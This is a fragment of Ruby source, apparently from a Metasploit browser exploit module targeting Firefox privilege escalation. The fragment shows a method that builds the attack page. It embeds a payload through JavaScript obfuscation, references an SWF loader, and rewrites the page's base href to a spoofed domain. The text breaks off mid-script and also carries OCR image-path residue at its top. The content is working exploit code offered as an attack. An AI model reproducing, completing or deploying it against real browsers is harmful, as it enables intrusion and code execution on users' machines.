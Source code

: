 



# @return [String] HTML that is sent in the first response to the client


def generate_html(cli, target)


vars = {


:symbol_id => 'a',


:random_domain => 'safe',


:payload => run_payload, # defined in FirefoxPrivilegeEscalation mixin


:payload_var => 'c',


:payload_key => 'k',


:payload_obj_var => 'payload_obj',


:interval_var => 'itvl',


:access_string => 'access',


:frame_ref => 'frames[0]',


:frame_name => 'n',


:loader_path => "#{get_module_uri}.swf",


:content => self.datastore['CONTENT'] || ''


}


script = js_obfuscate %Q|


var #{vars[:payload_obj_var]} = #{JSON.unparse({vars[:payload_key] => vars[:payload]})};


var #{vars[:payload_var]} = #{vars[:payload_obj_var]}['#{vars[:payload_key]}'];


function $() {


document.querySelector('base').href = "http://www.#{vars[:random_domain]}.com/";


}

